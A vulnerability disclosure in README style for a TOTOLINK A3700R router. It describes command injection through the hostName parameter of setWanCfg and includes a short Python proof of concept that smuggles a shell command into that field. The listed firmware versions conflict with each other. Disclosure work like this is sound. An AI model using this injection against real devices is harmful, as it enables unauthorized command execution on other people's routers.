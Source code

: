 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20200728/311b3ec5b0a8e61af298aebda158ec9b.zip

## Affected version

A3700R V9.1.2u.5822_B20200513

## Vulnerability details

In the A3700R V9.1.2u.6165_20211012 firmware has a command injection vulnerability in the `setWanCfg` function. The `v48` variable receives the `hostName` parameter from a POST request. However, since the user can control the input of `hostName`, the statement `doSystem` can cause a buffer command injection vulnerability.

![image-20240719022247585](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022247585.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWanCfg",
"hostName":"';ls -al ../ ;'",
"proto":"80"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719022336777](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022336777.png)

